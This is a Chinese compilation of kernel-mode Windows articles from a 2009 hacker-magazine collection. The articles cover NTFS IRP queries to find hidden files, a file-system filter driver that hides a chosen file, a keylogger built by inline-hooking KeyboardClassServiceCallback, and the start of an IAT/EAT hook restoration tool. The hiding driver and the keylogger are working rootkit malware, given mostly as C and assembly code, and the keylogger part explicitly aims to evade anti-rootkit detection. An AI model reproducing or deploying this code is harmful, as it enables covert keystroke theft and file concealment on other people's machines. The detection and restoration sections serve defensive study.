FileObject 上的 VPB 是文件系统所挂钩的数据结构，我们直接使用 FileObject 的 VPB 上的 DeviceObject 作为我们检测是否为 NTFS 驱动的 Device Object。顺便说一下，本文没有描述如果文件系统是使用 FAT 格式的 FastFat 文件系统驱动，但实现是一样的。我们这里还可以同样调用 `IoGetBaseFileSystemDeviceObject` 函数来获取底层文件系统 Device Object，但可能返回的不是 NTFS 的 Device Object，如果文件系统驱动被挂钩了的话。所以，如果出现这种情况，我们直接返回错误，让用户知道文件系统被挂钩了。当然，如果我们能够直接确认哪一个是我们需要的 NTFS 或者 FastFat 的调用 Device Object，就不用这么麻烦了。在我测试的 Windows 2000 SP2 和 Windows XP SP2 上，NTFS 的第 1 个没有 Device Object Name 的 Device Object 就是我们需要的发送 IRP 的目标；Windows 2003 SP1 上则是第 3 个。在获得了 NTFS 的 Device Object 后，我们接着就是建立一个查询 IRP 了，这和上期的《调用 Disk 驱动读取扇区的驱动实现》基本一样，只是调用的参数不一样。我们来看一下实现代码。

```c
IrpSp = IoGetNextIrpStackLocation(Irp);
IrpSp->MajorFunction = IRP_MJ_DIRECTORY_CONTROL;
IrpSp->MinorFunction = IRP_MN_QUERY_DIRECTORY;
IrpSp->DeviceObject = DevObj;
IrpSp->FileObject = FileObj;

// MajorFunction 是 IRP_MJ_DIRECTORY_CONTROL
// MinorFunction 是 IRP_MN_QUERY_DIRECTORY
// FileObject 这个参数必须加上

IrpSp->Parameters.Others.Argument1 = (PVOID)ReadLength;
```

```c
ULONG GetDirInformation(CHAR* DirName, ULONG NameLength, CHAR* Buffer, ULONG BufferLength)
{
DO_CREATE_IRP:
    // 设置起始标记
    Flag = FirstScan ? SL_RESTART_SCAN : 0;

    // 建立 IRP
    QueryIrpPtr = CreateDirCtlIrp(
        DeviceObject,
        FileObjectPtr,
        &WaitEvent,
        &QueryIrpIoStatusBlock,
        MdlPtr, ReadBuffer, ReadLength,
        Flag);

    if (QueryIrpPtr == NULL) {
        IoFreeMdl(MdlPtr);
        FreePool(ReadBuffer);
        ObDereferenceObject(FileObjectPtr);
        return 0;
    }

    FirstScan = FALSE;
    DbgPrint("Created Irp\n");

    QueryStatus = MyCallDriver(DeviceObject, QueryIrpPtr,
                               (PDRIVER_DISPATCH)NtfsDirCtlDispatch);

    if (QueryStatus == STATUS_PENDING) {
        DbgPrint("Io Pending...\n");
        WAIT_FOR_OBJECT(&WaitEvent, NULL);
    } else if (QueryStatus == STATUS_SUCCESS) {
        DbgPrint("Io Succeed\n");
    } else {
        if (QueryStatus == STATUS_NO_MORE_FILES) {
            DbgPrint("No more file\n");
            if (*RtnLengthPtr + 1 >= BufferLength) {
                // overflow
            } else {
                // Append last NULL char
                Buffer[*RtnLengthPtr] = (CHAR)NULL;
                *RtnLengthPtr += 1;
            }
        } else {
            DbgPrint("Io Failed %x\n", QueryStatus);
        }
    }
}
```

```c
// 数据传送结束
goto GET_DIR_INFO_END;
...
DbgPrint("Read : %x\n", QueryIrpPtr->IoStatus.Information);

// 将数据写入输出缓冲区
CopyFileName(ReadBuffer, QueryIrpPtr->IoStatus.Information, RtnLengthPtr, Buffer, BufferLength);
IoFreeIrp(QueryIrpPtr);

// 继续获取数据
goto DO_CREATE_IRP;

GET_DIR_INFO_END:
DbgPrint("Call Driver Finished: return length : %X\n", *RtnLengthPtr);

// 释放资源
IoFreeIrp(QueryIrpPtr);
IoFreeMdl(MdlPtr);
FreePool(ReadBuffer);
ObDereferenceObject(FileObjectPtr);
return *RtnLengthPtr;
```

```c
strcpy(&RtnBuffer[*ReadIndex], FileName);
DbgPrint("%s\n", FileName);
} else {
    LongFileNamePtr = AllocatePagedPool(FileNameLength + 1);
    if (LongFileNamePtr == NULL) { ... }
    else {
        wcstombs(LongFileNamePtr, FileDirInfoPtr->FileName, FileNameLength);
        LongFileNamePtr[FileNameLength] = (CHAR)NULL;
        strcpy(&RtnBuffer[*ReadIndex], LongFileNamePtr);
        FreePool(LongFileNamePtr);
    }
}
// update need length. 1 for NULL.
*ReadIndex += FileNameLength + 1;
if (Ending) break;

// 更新指针指向下一个数据结构
FileDirInfoPtr = (FILE_FULL_DIRECTORY_INFORMATION*)((ULONG)FileDirInfoPtr + FileDirInfoPtr->NextEntryOffset);
...
return TRUE;
```

在这段代码中，首先设置 Flag，接着建立 IRP，调用 Dispatch 函数测试返回状态。如果是 STATUS_SUCCESS 或者 STATUS_PENDING 的话，先将数据写入输出缓冲区，继续建立 IRP 再获取数据；如果是 STATUS_NO_MORE_FILES 的话就调用完成，之后更新数据长度，返回。最后，我们再来看一看是如何处理返回数据的。

我们的调用参数是 `FileFullDirectoryInformation`，而 `Argument3 = (PVOID)FileFullDirectoryInformation`，所以返回的参数是一个 `FILE_FULL_DIRECTORY_INFORMATION` 结构的集合，结构的格式如下：

```c
BOOLEAN
CopyFileName(UCHAR *ReadBuffer, ULONG ReadLength, ULONG *ReadIndex, UCHAR *RtnBuffer, ULONG MaxBufLen)
{
    // 返回的数据是一个 FULL_DIRECTORY 数据结构的集合
    FILE_FULL_DIRECTORY_INFORMATION *FileDirInfoPtr =
        (FILE_FULL_DIRECTORY_INFORMATION*)ReadBuffer;
    CHAR FileName[256];
    CHAR *LongFileNamePtr;
    BOOLEAN Result = TRUE, Ending = FALSE;
    ULONG FileNameLength;

    while (TRUE) {
        if (FileDirInfoPtr->NextEntryOffset == 0) {
            Ending = TRUE;
        }

        FileNameLength = FileDirInfoPtr->FileNameLength / 2;

        if (Result == FALSE) {
        } else if (FileNameLength + *ReadIndex + 1 >= MaxBufLen) {
            Result = FALSE;
        } else {
            if (FileNameLength + 1 < 256) {
                wcstombs(FileName, FileDirInfoPtr->FileName, FileNameLength);
                FileName[FileNameLength] = (CHAR)NULL;
            }
        }
    }
}
```

```c
typedef struct _FILE_FULL_DIRECTORY_INFORMATION { // Information Class 2
    ULONG NextEntryOffset;
    ULONG Unknown;
    LARGE_INTEGER CreationTime;
    LARGE_INTEGER LastAccessTime;
    LARGE_INTEGER LastWriteTime;
    LARGE_INTEGER ChangeTime;
    LARGE_INTEGER EndOfFile;
    LARGE_INTEGER AllocationSize;
    ULONG FileAttributes;
    ULONG FileNameLength;
    ULONG EaInformationLength;
    WCHAR FileName[1];
} FILE_FULL_DIRECTORY_INFORMATION, *PFILE_FULL_DIRECTORY_INFORMATION;
```

第一个 member 用来定位下一个结构的位置，最后一个 member 是文件的名称，正是我们需要的数据，将它写入输出缓冲区就可以了。

至此，我们就可以准确地避过 SSDT hook 和文件过滤驱动来准确检测文件的存在了。以上代码在 Windows 2000 SP2、Windows XP SP2 和 Windows 2003 SP1 上测试通过。

【本文涉及的代码（程序），请见随书光盘】

## 用文件系统过滤驱动

### 实现文件隐藏


文／图 虎子哥哥

前段时间看了夜枫的《RootKit文件隐藏技术实现》，说的是通过SSDT挂钩NtQueryDirectoryFile函数来实现文件隐藏。其实隐藏文件还有另外一种方法，就是利用文件系统过滤驱动。

在我们的电脑里，硬盘被分为好几个分区，比如C盘、D盘、E盘，等等。每个分区都有自己的格式，比如FAT32、NTFS等，这些便是文件系统了。通过文件系统，我们可以很方便地使用硬盘上的文件。比如，我们只要说出文件的路径，像C:\Windows\Cmd.exe等等，就可以引用到硬盘上的文件了，而不用去管这个文件到底在硬盘上的什么位置，这便是文件系统的作用。

在Windows里，硬盘的每一个分区被抽象成驱动程序中的设备对象。像C盘、D盘这些，每一个盘在系统中对应一个设备对象。C盘对应的设备是\Device\HarddiskVolume1，D盘对应的设备是\Device\HarddiskVolume2，这些设备叫做卷设备。系统中的文件操作，就是通过给这些设备发送IRP来进行的。而文件系统过滤驱动，就是要在驱动上生成自己的设备，然后去绑定这些卷设备，从而实现对发送给卷设备的IRP的过滤，进而过滤各种文件操作。利用文件系统过滤驱动隐藏文件，其原理也就是由此而来的。

原理分析完了，下面我们进入代码实现部分。这里主要要掌握的是DriverEntry、Dispatch Routine和Completion Routine 3个例程。下面我们一个个地分析这3个函数，首先是DriverEntry，这个例程的代码大致如下：

```c
// 把Dispatch Routine设置为FilterDispatch;
for ( i = 0; i <= IRP_MJ_MAXIMUM_FUNCTION; i++ ) {
    DriverObject->MajorFunction[i] = FilterDispatch;
}

// 设置Fast I/O Calls
DriverObject->FastIoDispatch = &FastIOHook;
return AttachAllVolume( DriverObject );
```

其中Fast I/O是文件系统驱动的一组特殊的例程，这个AttachAllVolume是自定义函数，用来完成前面讲的对卷设备的绑定。

派遣例程FilterDispatch的代码如下，其作用是为IRP设置完成例程，以便在下层的文件系统驱动完成IRP的时候，对返回的结果进行修改，进而把我们想要的文件隐藏起来。

```c
NTSTATUS
FilterDispatch(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp
)
{
    PATTACH_EXTENSION AttachExtension;
    AttachExtension = (PATTACH_EXTENSION)DeviceObject->DeviceExtension;
    IoCopyCurrentIrpStackLocationToNext( Irp );
    // 把完成例程设置为CompletionRoutine
    IoSetCompletionRoutine(
        Irp,
        CompletionRoutine,
        NULL,
        TRUE,
        TRUE,
        FALSE
    );
    // 向下层的文件系统驱动传递IRP
    return IoCallDriver( AttachExtension->VolumeDevice, Irp );
}
```

```c
NTSTATUS
DriverEntry(
    IN PDRIVER_OBJECT DriverObject,
    IN PUNICODE_STRING RegistryPath
)
{
    ULONG i;
    g_DriverObject = DriverObject;
    ...
}
```

通过向下传递IRP，每一个请求最终通过文件系统驱动处理完毕。而在此之前我们安装了完成函数CompletionRoutine，它会在IRP被文件系统驱动处理完毕时被调用。这样我们就有机会来改写返回的结果，进而隐藏文件。

完成函数CompletionRoutine就是隐藏文件最关键的函数了。隐藏文件的方案可以有很多种，可以设计为隐藏文件名中带有特定前缀的文件，也可以隐藏带有特定扩展名的文件，等等。为了简单起见，这里就以隐藏一个指定名字（dream_8.txt）的文件来进行实验。函数代码如下：

当在资源管理器中查看文件时，每一个文件返回一个FILE_BOTH_DIR_INFORMATION结构，这样当前目录中所有的文件返回的信息会形成一个这种结构的链表，只要从链表中抹掉对应的项，指定的文件就会隐藏起来。抹掉隐藏文件的对应表项，具体的做法会根据它在链表中的位置而有所不同。以上的HideHandler函数就是用来处理这个问题的，其实现代码如下：

```c
NTSTATUS
CompletionRoutine(
    IN PDEVICE_OBJECT DeviceObject,
    IN PIRP Irp,
    IN PVOID Context
)
{
    PFILE_BOTH_DIR_INFORMATION volatile CurrEntry;
    PFILE_BOTH_DIR_INFORMATION volatile LastEntry;
    ULONG BufferLength;
    ULONG Index;
    PIO_STACK_LOCATION IrpSp;

    IrpSp = IoGetCurrentIrpStackLocation(Irp);
    if ((IrpSp->MajorFunction == IRP_MJ_DIRECTORY_CONTROL)
        && (IrpSp->MinorFunction == IRP_MN_QUERY_DIRECTORY)
        && KeGetCurrentIrql() == PASSIVE_LEVEL
        && IrpSp->Parameters.QueryDirectory.FileInformationClass == FileBothDirectoryInformation)
    {
        Index = -1;
        LastEntry = NULL;
        CurrEntry = (PFILE_BOTH_DIR_INFORMATION)Irp->UserBuffer;
        BufferLength = Irp->IoStatus.Information;
        if (BufferLength > 0) {
            // 遍历FILE_BOTH_DIR_INFORMATION结构的链表
            do {
                if (LastEntry != NULL) {
                    CurrEntry = (PFILE_BOTH_DIR_INFORMATION)
                        ((PCHAR)CurrEntry + CurrEntry->NextEntryOffset);
                }
                Index++;
                if (HideOrNot(CurrEntry->FileName, CurrEntry->FileNameLength)) {
                    HideHandler(Index, CurrEntry, LastEntry, Irp);
                    break;
                }
                LastEntry = CurrEntry;
            } while (CurrEntry->NextEntryOffset != 0);
        }
    }

    if (Irp->PendingReturned) {
        IoMarkIrpPending(Irp);
    }
    return Irp->IoStatus.Status;
}
```

```c
VOID
HideHandler(
    IN ULONG Index,
    IN PFILE_BOTH_DIR_INFORMATION CurrEntry,
    IN PFILE_BOTH_DIR_INFORMATION LastEntry,
    IN PIRP Irp
)
{
    PVOID temp;
    // 目标表项是链表中仅有的一项
    if ((Index == 0) && (CurrEntry->NextEntryOffset == 0)) {
        RtlZeroMemory(CurrEntry, Irp->IoStatus.Information);
        Irp->IoStatus.Information = 0;
        Irp->UserBuffer = NULL;
    }
    // 目标表项在链表的第一项
    else if ((Index == 0) && (CurrEntry->NextEntryOffset != 0)) {
        temp = ExAllocatePool(
            NonPagedPool,
            Irp->IoStatus.Information - CurrEntry->NextEntryOffset);
        if (temp) {
            RtlCopyMemory(
                temp,
                (PCHAR)CurrEntry + CurrEntry->NextEntryOffset,
                Irp->IoStatus.Information - CurrEntry->NextEntryOffset);
            RtlZeroMemory(CurrEntry, Irp->IoStatus.Information);
            RtlCopyMemory(
                CurrEntry,
                temp,
                Irp->IoStatus.Information - CurrEntry->NextEntryOffset);
            Irp->IoStatus.Information -= CurrEntry->NextEntryOffset;
            ExFreePool(temp);
        }
    }
    // 目标表项在链表的中间
    else if ((Index > 0) && (CurrEntry->NextEntryOffset != 0)) {
        temp = ExAllocatePool(
            NonPagedPool,
            ((PCHAR)Irp->UserBuffer + Irp->IoStatus.Information)
            - ((PCHAR)CurrEntry + CurrEntry->NextEntryOffset));
        if (temp) {
            // ...
        }
    }
}
```

```c
RtlCopyMemory(
    temp,
    (PCHAR)CurrEntry + CurrEntry->NextEntryOffset,
    ((PCHAR)Irp->UserBuffer + Irp->IoStatus.Information)
      - ((PCHAR)CurrEntry + CurrEntry->NextEntryOffset)
);
RtlZeroMemory(
    CurrEntry,
    ((PCHAR)Irp->UserBuffer + Irp->IoStatus.Information)
      - (PCHAR)CurrEntry
);
RtlCopyMemory(
    CurrEntry,
    temp,
    (PCHAR)Irp->UserBuffer + Irp->IoStatus.Information
      - ((PCHAR)CurrEntry + CurrEntry->NextEntryOffset)
);
Irp->IoStatus.Information -= CurrEntry->NextEntryOffset;
ExFreePool(temp);
```

```c
RtlZeroMemory(
    CurrEntry,
    ((PCHAR)Irp->UserBuffer + Irp->IoStatus.Information)
      - (PCHAR)CurrEntry
);
LastEntry->NextEntryOffset = 0;
Irp->IoStatus.Information = (PCHAR)CurrEntry - (PCHAR)Irp->UserBuffer;
```

这个函数把目标表项在链表中的位置分为4种情况，我已经分别标注在以上代码中了。至于各种不同的位置下是如何修改链表的，就由大家自己去读代码吧。

最后简单说说函数AttachAllVolume是如何绑定卷设备的，其中用到的函数有ZwQueryInformationProcess、ZwCreateFile、IoGetRelatedDeviceObject和IoAttachDeviceToDeviceStack等。至于那些Fast I/O函数，直接返回FALSE就可以了，其他什么都不用做。

> 【本文涉及的代码（程序），请见随书光盘】


## Inline Hook KeyboardClassServiceCallback

### 实现键盘记录

文／王斌

键盘记录的方法有很多，Ring3下一般有调用CreateRemoteThread函数远程DLL或代码注入、调用SetWindowsHookEx安装键盘钩子记录按键、GetKeyboardState、RawInputThread或BlockInput() API。而在Ring0下有kbfiltr、IDTHook文件补丁技术、直接I/O端口，或者修改DDK中自带的kbfilter的键盘（Port Driver）过滤驱动。

不过这些方法都有这样或那样的缺陷，比如CreateRemoteThread注入代码，由于现在远程线程技术的泛滥，连刚入门的Windows编程爱好者都知道用这招实现诸多黑客手段，自然杀软也毫不示弱，基本上再调用CreateRemoteThread等于脸上贴上“我是木马”的标签。

SetWindowsHookEx也面对同样的命运，很多杀软已经有所防范。可以说，在Ring3层面，键盘记录很难在杀软下有所作为了。如果环境是Ring0，可选择的方法则有很多，键盘过滤驱动就是个不错的主意，但需要考虑比较多的东西，而且兼容性也是个问题。引用sinister的话来说，“首先需要attach到\\Device\\KeyboardClass0设备上再进行按键过滤。但如果仅attach这个设备的话，会存在很多问题，就是只能过滤到PS/2键盘，对于使用USB键盘的机器会毫无作用。大家可能会想到，从KeyboardClass0一直到N都attach不就可以了吗？总有一个会是USB键盘设备。经过实践这是不可行的，只要是USB键盘设备的话，使用IoGetDeviceObjectPointer()函数从设备名得到设备对象都会失败，我还曾尝试使用USB键盘设备名来转换，还是一样失败。还有一个问题就是，USB键盘设备不是都有名称的，即使有名称也都是动态生成的。”

所以我们这次要采用目前最流行的hook技术，当然是内核之下的hook了，不然就没有意义了。经过对DDK里面的代码进行分析，发现有很多地方可以hook，比如位于kbfiltr.c下的KbFilter_InternIoCtl函数。这个键盘过滤驱动基本上对所有的IRP都通过它传递到下层的驱动处理，控制码IOCTL_INTERNAL_KEYBOARD_CONNECT注册了一个回调函数KbFilter_ServiceCallback，在这个函数中实现了按键的扫描码的一些处理，如果我们在这安装一个钩子的话，就能截获键盘的按键了。

不过在写这个程序的时候，我偶然发现DDK中kbdclass文件夹下的kbdclass.c里面还有不少好东西，其中有个更为底层的回调函数KeyboardClassServiceCallback，它是在I8042prt和hidkbd这两个驱动之上的，所以直接调用它的KeyboardClassServiceCallback()是能对PS/2和USB同时生效的。也就是说，在这安装钩子的话，我们的截获会更加有效！下面看看如何实现KeyboardClassServiceCallback的内联钩子。

在这一步我遇到了一些困难：KeyboardClassServiceCallback是不被驱动kbdclass导出的，这就需要我们用一些“非常”手段来找到这个函数。一般情况下，我选择硬编码方式，虽然可能通用性不强，但如果我们搜集各个Windows的SP硬编码，还是能克服这个毛病的。在我的系统上，对kbdclass.sys用IDA进行反汇编分析，得到如下代码：

```asm
.text:0001119F 51 push ecx
.text:000111A0 51 push ecx
.text:000111A1 8B 45 08 mov eax, [ebp+DeviceObject]
.text:000111A4 83 65 08 00 and [ebp+DeviceObject], 0
```

可以很容易地找到KeyboardClassServiceCallback的特征码，就是函数前面的几个字节：

`8B FF 55 8B EC 51 51 8B 45 08......`

因此，我们就可以使用下面的代码来搜索KeyboardClassServiceCallback。

```c
NTSTATUS status = STATUS_SUCCESS;
UNICODE_STRING ustrLinkName;
UNICODE_STRING ustrDevName;
PDEVICE_OBJECT pDevObj;
ULONG i, curAddr;
PUCHAR FileContent;
DWORD dwRet, dwSize;
PVOID pTmp;
LARGE_INTEGER timeout;
KEVENT Kevent;
ULONG g_kbdclass_base;
ULONG g_lpKbdServiceCallback;
PDEVICE_OBJECT g_kbDeviceObject = NULL;
KEYBOARD_INPUT_DATA kid;
ULONG Addr_OldFunction = 0;
ULONG code1_sp2=0x8b55ff8b, code2_sp2=0x8b5151ec,
code3_sp2=0x65830845, code4_sp2=0x8b530008;

g_kbdclass_base = (ULONG)GetModuleBaseAdress("kbdclass.sys", 0);
if (0 == g_kbdclass_base) {
    return STATUS_SUCCESS;
}
curAddr = g_kbdclass_base;
for (i = curAddr; i <= curAddr + 0x2000; i++) {
    if (*((ULONG *)i) == code1_sp2) {
        if (*((ULONG *)(i + 4)) == code2_sp2) {
            if (*((ULONG *)(i + 8)) == code3_sp2) {
                if (*((ULONG *)(i + 12)) == code4_sp2) {
                    g_lpKbdServiceCallback = i;
                    break;
                }
            }
        }
    }
}
Addr_OldFunction = (ULONG)g_lpKbdServiceCallback;
return Addr_OldFunction;
```

```asm
; _DWORD *__stdcall KeyboardClassServiceCallback_1119A(PDEVICE_OBJECT DeviceObject,
; PKEYBOARD_INPUT_DATA InputDataStart, PKEYBOARD_INPUT_DATA InputDataEnd, PULONG InputDataConsumed)

.text:0001119A KeyboardClassServiceCallback_1119A proc near
.text:0001119A var_8 = dword ptr -8
.text:0001119A var_4 = dword ptr -4
.text:0001119A DeviceObject = dword ptr 8
.text:0001119A InputDataStart = dword ptr 0Ch
.text:0001119A InputDataEnd = dword ptr 10h
.text:0001119A InputDataConsumed = dword ptr 14h
.text:0001119A 8B FF mov edi, edi
.text:0001119C 55 push ebp
.text:0001119D 8B EC mov ebp, esp
```

之后再把上面的代码包装到ULONG FindOldFunctionAddress()中。这段代码有个地方要注意——下面，就是怎么得到 `kbdclass.sys` 的基址。这里我使用 `sudami` 的代码中现成的 `GetModuleBaseAdress` 函数。经过分析，明白了其中的道理：使用内核中的 `ZwQuerySystemInformation` 函数的 `SystemModuleInformation` 功能号对当前系统模块进行遍历查询。

```c
PVOID GetModuleBaseAdress(
    char* ModuleName,
    BOOL bKernelBase)
{
    ULONG size,index;
    PULONG buf;
    NTSTATUS status;
    PSYSTEM_MODULE_INFORMATION module;
    PVOID driverAddress=0;
    ZwQuerySystemInformation(SystemModuleInformation,&size,0,&size);
    if(NULL==(buf=(PULONG)ExAllocatePool(PagedPool,size))){
        DbgPrint("failed alloc memory failed \n");
        return 0;
    }
    status=ZwQuerySystemInformation(SystemModuleInformation,buf,size,0);
    if(!NT_SUCCESS(status)){
        DbgPrint("failed query\n");
        return 0;
    }
    module=(PSYSTEM_MODULE_INFORMATION)((PULONG)buf+1);
    // 系统模块基址
    if(TRUE==bKernelBase){
        driverAddress=module[0].Base;
        DbgPrint("KernelBase:%x\n",driverAddress);
        goto _x_;
    }
    // 其他模块基址
    for(index=0;index<*buf;index++){
        if(_stricmp(module[index].ImageName+module[index].ModuleNameOffset,ModuleName)==0){
            driverAddress=module[index].Base;
            DbgPrint("Module found at:%x\n",driverAddress);
            goto _x_;
        }
    }
_x_:
    ExFreePool(buf);
    return driverAddress;
}
```

下面就是大家都非常熟悉的 Inline Hook 了，这里我使用的是一段现成代码，结构非常清晰，而且克服了很多其他代码的一些缺点，这里给大家讲解一下。所有的 hook 全部在 `HookOldFunction` 函数中实现。

```c
VOID HookOldFunction()
{
    KIRQL oldIrql;
    if(g_OldFunction==0){
        DbgPrint("OldFunction == NULL\n");
        return;
    }
    // DbgPrint("开始inline hook——OldFunction\n");
}
```

```c
DbgPrint("OldFunction的地址:0x%08x\n", (ULONG)g_OldFunction);
// 保存原函数的前字节内容
RtlCopyMemory(g_OrigCode,(BYTE*)g_OldFunction,5);
*((ULONG*)(g_HookCode+1))=(ULONG)fake_OldFunction-(ULONG)g_OldFunction-5;
// 禁止系统写保护，提升IRQL到DPC
WPOFF();
oldIrql=KeRaiseIrqlToDpcLevel();
RtlCopyMemory((BYTE*)g_OldFunction,g_HookCode,5);
*((ULONG*)(jmp_orig_code+1))=(ULONG)((BYTE*)g_OldFunction+5);
RtlCopyMemory((BYTE*)Proxy_OldFunction,g_OrigCode,5);
// 修改Proxy_OldFunction函数头
RtlCopyMemory((BYTE*)Proxy_OldFunction+5,jmp_orig_code,7);
// 恢复写保护，降低IRQL
KeLowerIrql(oldIrql);
WPON();
g_bHooked=TRUE;
```

首先用函数 `WPOFF` 禁用写保护，`KeRaiseIrqlToDpcLevel` 提升当前 IRQL。这两步是必须的。有人要问了，既然已经禁用写保护，为什么还要提升 IRQL 呢？其实这是在防止多核中进行写入操作时候突然调用原函数（也就是 `Keyboard ClassServiceCallback`）。然后保存原函数的前字节内容，`RtlCopyMemory((BYTE*)Proxy_OldFunction,g_OrigCode,5);` 和 `RtlCopyMemory((BYTE*)Proxy_OldFunction+5,jmp_orig_code,7);` 这两句即是修改函数的执行流程到我们的代理函数 `Proxy_OldFunction` 中。下面再看看 `Proxy_OldFunction` 的实现。

```c
VOID Proxy_OldFunction(
    PDEVICE_OBJECT DeviceObject,
    PKEYBOARD_INPUT_DATA InputDataStart,
    PKEYBOARD_INPUT_DATA InputDataEnd,
    PULONG InputDataConsumed
)
{
    __asm {
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90 // 前5字节实现原函数的头字节功能
        _emit 0x90 // 这个换成jmp
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90 // 这5字节保存原函数+5处的地址
        _emit 0x90 // 因为是长转移，所以必须是0xE9
    }
}
```

## 《黑客防线》2009 黑客编程 VC专辑 · 系统核心类

这里使用了两段跳的方法。先从原函数跳到 `Proxy_OldFunction` 函数中，然后再跳转到 `fake_OldFunction` 函数里。我看了很多 hook，方法也不尽相同。很多人直接跳转到一个 `fake_OldFunction` 里，然后执行完 hook 的功能后再跳转到原函数。这样是可以，但比较麻烦，而我给出的 hook 方法只需要修改 `fake_OldFunction` 即可。其他的比如执行原函数被 jmp 覆盖的指令等，全交给 `Proxy_OldFunction`。不过大家在修改这段代码 hook 其他的函数时要注意，被 hook 的函数的前 5 个字节必须是若干条完整的指令，而不能产生指令碎屑。现在进入 `fake_OldFunction`。

`Proxy_OldFunction` 执行原函数前 5 个字节的目的，到 `fake_OldFunction` 里当然不用再执行了。现在关注 `fake_OldFunction` 的代码，可以发现里面有个 `0xAAAAAAAA`，其实这是为了防止在高 IRQL 中不允许使用分页内存。在驱动入口的 `ChangeFake_Function` 里，我申请了一段非分页内存，并动态修改了 `0xAAAAAAAA` 为非分页内存的地址。`fake_OldFunction` 里剩下的汇编代码即是把拦截到的键盘扫描码（一个字节）保存到非分页内存中去。系统在调用 `Keyboard ClassServiceCallback` 的时候，键盘扫描码会保存在 `PKEYBOARD_INPUT_DATA InputDataStart` 参数中。我们再看看 `PKEYBOARD_INPUT_DATA` 类型的实现。

```c
__declspec (naked)
VOID
fake_OldFunction (
    PDEVICE_OBJECT DeviceObject,
    PKEYBOARD_INPUT_DATA InputDataStart,
    PKEYBOARD_INPUT_DATA InputDataEnd,
    PULONG InputDataConsumed)
{
    __asm {
        push eax
        push ebx
        push ecx
        push esi
        xor esi, esi
        mov eax, [0xAAAAAAAA]
        mov ebx, [esp+0x18]
        mov cl, byte ptr [ebx+2]
        // 键盘码
        mov ch, byte ptr [eax]
        // 得到当前位置 -> ch
        cmp ch, MAXBUF
        jnz NotLastPlace
        mov ch, 0x0
NotLastPlace:
        inc ch
        movzx si, ch
        mov byte ptr [eax], ch
        mov byte ptr [eax+esi], cl
        pop esi
        pop ecx
        pop ebx
        pop eax
        jmp Proxy_OldFunction
    }
}
```

```c
typedef struct _KEYBOARD_INPUT_DATA {
    USHORT UnitId;
    USHORT MakeCode;
    USHORT Flags;
    USHORT Reserved;
    ULONG  ExtraInformation;
} KEYBOARD_INPUT_DATA, *PKEYBOARD_INPUT_DATA;
```

这里要注意一下，这几个函数前都加了 `__declspec (naked)` 修饰符，表示编译器在此函数中不产生堆栈帧的代码。什么叫堆栈帧呢？随便查看一个 API，前面一般是 `push ebp, mov ebp, esp`，这就是一个堆栈帧，用来保存函数返回地址等。我们的 hook 函数 `fake_OldFunction` 是紧接着原函数执行的，建立堆栈帧的工作已经做完了，即是前面 `Proxy_OldFunction` 执行原函数前 5 个字节的目的。

其中的 `MakeCode` 即保存了键盘扫描码。在这里，我用 `mov ebx,[esp+0x18]` 和 `mov cl, byte ptr [ebx+2]` 两句把扫描码保存在 `cl` 中。

注意，我用非分页内存的第一个字节作为标志位，存储当前保存到的位置，下次 hook 函数拦截到的码便不会覆盖前一个值了。这样，一个完整的键盘记录驱动便完成了。如果想进一步应用，可以在驱动入口处添加 `IRP_MJ_DEVICE_CONTROL` 的派遣例程，在里面读取非分页内存，实现 Ring3 到 Ring0 的通信。

最后总结一下。本文首先回顾了各种键盘记录的方法，从 Ring3 到 Ring0，以及各种方法的优缺点，并给出了另一种通过 hook `Keyboard ClassServiceCallback` 实现键盘记录的方法。这种方法网上也有人提过，好处很多，首先是不容易被检测到（当然，如果大家知道这个地方可能存在 hook 的话，那另当别论），不过我们可以换个地方，甚至在 `Keyboard ClassServiceCallback` 的更深处进行 hook，而且兼容性好，哪种接口的键盘都可以。其实可以进行 hook 的地方非常多，通读 `kbdclass.c` 里面的代码，发现几乎都可以用来 hook，我们甚至可以 hook `KbdSend ConnectRequest`，直接把 `Keyboard ClassServiceCallback` 替换成我们的程序，让检测程序 Antirootkit 等防不胜防。

【本文涉及的代码（程序），请见随书光盘】

## 恢复

### Ring0下的IAT与EAT Hook


文/pixiebox

Windows 系统核心中的 Rootkit，以及 Antirootkit、Antivirus 很多都 Hook 了 IAT 和 EAT table，比如卡巴斯基、gmer 等，同时它们又实现了恢复功能，比如 IceSword、rootunhooker 等。本文就将实现这个功能，让我们对 Antirootkit 有进一步的了解。

IAT（Import Address Table，导入地址表）是一个存放我们所调用的 module（模块）的函数地址表，如下面的伪代码所示。

我们的 PE 文件只能从原始内容上去搜索，因为此时内存中的数据再也不可信了。

我们首先调用 `NtQuerySystemInformation` 函数获得所有模块的数据，之后对我们自己的模块 `rvrie.sys` 进行恢复 IAT 和 EAT，因为我们的模块的 IAT 的 `NtQuerySystemInformation` 函数地址可能已经被 hook 了，那样就不能够准确列出所有的模块数据了。接下来我们就可以比较安全地调用 `NtQuerySystemInformation` 函数获得准确的模块数据了，最后开始恢复所有模块的 IAT 和 EAT 数据。

我们先看一下调用 `NtQuerySystemInformation` 获取模块地址的代码。

```c
// 我们的程序调用指令
F9123468: CALL F9200000
// 调用 NtOpenProcess
F9200000: JMP FAR DWORD PTR [F9220000]
// 间接跳转指令
// IAT
...
[F9220000]: 804A4D17
// 804A4D17 是 NtOpenProcess 的调用地址
```

驱动启动时 IAT 中的 `F9220000` 地址会写入我们需要导入的模块的 EAT（导出函数地址表）中的函数地址。我们接着来看 EAT（导出函数地址表），如下面的伪代码所示。

```c
// EAT
8049999C: 00014D28
80500000: 000A4D17
// A4D17 是 Ntoskrnl.exe 的 NtOpenProcess 的导出偏移地址，在文件中和内存中是相同的
```

如果我们想 Hook IAT 的话，在内存中改变它们的值就可以了。如果我们更改 IAT 的值为我们的函数地址，一旦该模块的程序调用这个函数，就会跳转到 HOOK 函数中。如果我们 Hook 模块的 EAT，那么之后启动的模块的 IAT 中的引用值将会是 HOOK 函数的地址。

那么我们如何恢复 IAT 和 EAT hook 呢？只能从原始的 PE 文件内容上去搜索了。

```c
// 调用获取数据长度
NtQuerySystemInformation(SystemModuleInformation,&Smi,sizeof(SYSTEM_MODULE_INFORMATION),&ByteNum);
Ptr = ExAllocatePool(PagedPool, ByteNum);
if(Ptr == NULL){ return; }

// 调用获取模块数据数组
if(STATUS_SUCCESS == NtQuerySystemInformation(SystemModuleInformation, Ptr, ByteNum, 0)){
    // 获取模块数量
    DriverCount = *(Ptr);
    SmiPtr = (PSYSTEM_MODULE_INFORMATION)(Ptr + 1);
    for(Idx = 0; Idx < DriverCount; ++Idx){
